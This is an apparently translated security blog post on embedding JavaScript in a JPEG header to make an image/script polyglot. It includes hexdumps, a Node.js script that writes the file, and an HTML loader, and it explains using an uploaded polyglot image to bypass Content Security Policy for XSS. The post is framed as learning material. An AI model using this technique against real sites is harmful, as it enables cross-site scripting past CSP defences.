

I heard about a technique for embedding JavaScript code into a JPEG image, so I tried it.
I used the following image for the experiment.


## Warning

This article is written for learning about security by understanding attack methods. The experiments are run in a virtual environment.
Please never use this against external sites.

## Look at the Image Binary

The method I tried modifies the binary of an image to embed code.
First, let's look at the binary of the image.

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

The first 2 bytes **FF D8** are called the SOI marker and indicate the start of the JPEG format.
The next 2 bytes **FF E0** indicate the segment type. The following **00 10** is the segment length, which is 16 in decimal. So the 16 bytes starting from **00 10** (up to just before **FF E1**) form the segment.
The last bytes **FF D9** are the EOI marker and indicate the end of the JPEG format.

I will embed `alert(1)` JS code into this segment. The hexadecimal binary for the string is:

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

## Embed the JS Code

Below is what the binary looks like after modifying it to embed JS code.

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

Loading this as JS code directly would cause an error because it contains invalid characters.
In JS, you can ignore code using `/*...*/` comments. By using this to comment out the image data, you can make the file look like valid JS code.

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

This is the binary of the image with comments and JS code embedded.

The first 4 bytes **FF D8 FF E0** become a valid non-ASCII JavaScript variable. Next, **2F 2A** starts the segment, and the segment content is commented out with `/*...*/`. An `=` is inserted to make the first 4 bytes a variable assignment, making them a valid string. Then `alert(1);` is inserted as executable code. After that, `/*...*/` comments out the rest of the JPEG image data.

The **2F 2A** for the segment start represents the segment length. In decimal this is 12074, so to match the segment length, 12074 - 16 - 14 = 12044 bytes are filled with null bytes (**00**).

The original segment part: 16 bytes of `2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01`

The embedded JS code part: `*/=alert(1);/*` = `2a2f3d616c6572742831293b2f2a` = 14 bytes

Representing only the valid JS code part:

```js
<valid non-ASCII char>=alert(1);
```

This JS code embedding is achieved with the following program:

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

## Load the JPEG Image

Let's load the image with embedded JS.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```



The image displayed correctly and was also loaded as a JS file!
Chrome has protection against this so no alert appeared, but IE11 showed the alert.

The number of browsers where this works is limited, but IE11 still has many users in Japan, so this technique cannot be ignored.

## How the Attack Is Used

I thought this would be an easy way to do XSS, but loading the file via an `` tag only processes it as an image, so the code is not executed.
The file must be loaded as a `<script>` tag on the target site for the code to run.

So how is this technique actually used? It is used to **bypass [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)**.
On websites with CSP enabled, loading JS from external domains or running inline scripts is blocked. So even if an attacker can inject a `<script>` tag, XSS can be prevented.

However, if a website has an image upload feature, an attacker could upload an image with embedded JS code, then inject a `<script>` tag to load that image. This would bypass CSP's security and achieve XSS.

```html
<!-- JPEG image with embedded JS uploaded by the attacker to the web server -->
<script src="/public/images/xss.jpg"></script>
```

These days, images are often uploaded to S3 or similar services. In that case, the image URL is an external domain covered by CSP policy, so situations where this attack works are quite limited.

## References

* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policy](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEG File Structure](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
